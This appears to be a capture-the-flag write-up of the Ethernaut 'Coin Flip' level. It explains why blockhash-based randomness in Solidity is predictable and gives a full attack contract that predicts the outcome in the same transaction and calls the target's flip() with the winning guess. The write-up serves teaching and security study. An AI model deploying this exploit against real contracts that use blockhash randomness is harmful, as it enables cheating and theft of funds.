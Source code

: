 # Coin Flip Contract

>Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

>To get cryptographically proven random numbers, you can use Chainlink VRF, which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

>Some other options include using Bitcoin block headers (verified through BTC Relay), RANDAO, or Oraclize).

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

# Solution
The CoinFlip contract uses the current blockhash to determine wether or not it is heads or tails so we need a way to get the blockhash and determine that before the contract does.
We will need to use the Remix IDE to create our own contract that calls this one. This contract will look exactly like the CoinFlip contract with the exception of adding:

```
interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}


address hackedContract = 0x4E502dEeCf2ef4229aaFf5BEfc6545991ea2935E;
ICoinFlip(hackedContract).flip(_guess);
ICoinFlip(hackedContract).flip(!_guess);
```

You can see the implementation in the following:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract HackCoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  address hackedContract = 0x4E502dEeCf2ef4229aaFf5BEfc6545991ea2935E; // ethernaut CoinFlip address

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      ICoinFlip(hackedContract).flip(_guess);
      return true;
    } else {
        ICoinFlip(hackedContract).flip(!_guess);
      consecutiveWins = 0;
      return false;
    }
  }
}
```

This contract creates an interface that connects our contract to the external contract. The name of the functions and types need to match the external contract:
```
interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}
```

Then we are adding the contract address of coinflip which the interface will use to check for the flip() function:
```
address hackedContract = 0x4E502dEeCf2ef4229aaFf5BEfc6545991ea2935E;
```

This part is where we call the flip contract no matter the outcome. Because our contract is calling the CoinFlip contract within the same transaction, the blockhash is the same for both our contract and the CoinFlip contract. So we run the flip() function ourself and whatever the answer we get, we will send that down to CoinFlip:
```
ICoinFlip(hackedContract).flip(_guess);
```

## What I learned
1. Connecting to an external contract to call functions.
2. How using blockhash or anything that is attached to the current transaction is not a good for randomization since this can be manipulated.
